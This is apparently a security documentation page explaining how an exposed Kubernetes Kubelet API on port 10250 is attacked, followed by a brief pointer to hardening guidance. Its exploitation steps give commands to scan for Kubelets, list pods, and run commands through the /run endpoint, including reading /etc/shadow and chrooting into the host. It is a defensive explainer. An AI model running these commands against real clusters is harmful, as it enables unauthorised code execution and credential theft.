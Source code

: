 ```yaml
---
sidebar_position: 4
title: "Exposed Kubelet API"
description: "How an exposed Kubelet API can be exploited to execute commands on nodes and compromise Kubernetes clusters."
---
```


# Exposed Kubelet API

The **Kubelet API** is responsible for managing pods on each node in a Kubernetes cluster. If improperly secured, attackers can **execute commands on worker nodes, retrieve secrets, and gain full control over workloads**.

---

## Exploitation Steps: Gaining Access to the Kubelet API

An attacker scans the cluster network to identify an open **Kubelet API port (10250)**.

### Step 1: Scan for Open Ports

The attacker runs a network scan to discover exposed Kubelets:

```bash
nmap -p 10250 --open <cluster-ip-range>
```

### Step 2: Query the Kubelet API

If authentication is **not enforced**, the attacker lists running pods:

```bash
curl -k https://<kubelet-ip>:10250/pods
```

### Step 3: Execute Commands on a Node

If the Kubelet API allows unauthenticated execution, the attacker runs a command inside a pod:

```bash
curl -k -X POST "https://<kubelet-ip>:10250/run/<namespace>/<pod-name>/<container-name>" -d 'cmd=cat /etc/shadow'
```

### Step 4: Escalate Privileges

If the attacker gains access to a privileged container, they execute commands on the **host node**, leading to cluster-wide compromise:

```bash
curl -k -X POST "https://<kubelet-ip>:10250/run/default/root-container" -d 'cmd=chroot /host bash'
```

### Result

The attacker now has **remote code execution** on a Kubernetes worker node and can **compromise the entire cluster**.

---

## Mitigation Steps

To protect against **Kubelet API exposure**, follow the security best practices outlined in:

➡ **[Kubelet Security](/docs/best_practices/cluster_setup_and_hardening/kubelet_security)**

This guide covers techniques such as **disabling anonymous access, enforcing authentication, using RBAC to restrict API actions, and securing network access** to prevent unauthorized control over Kubelet APIs.
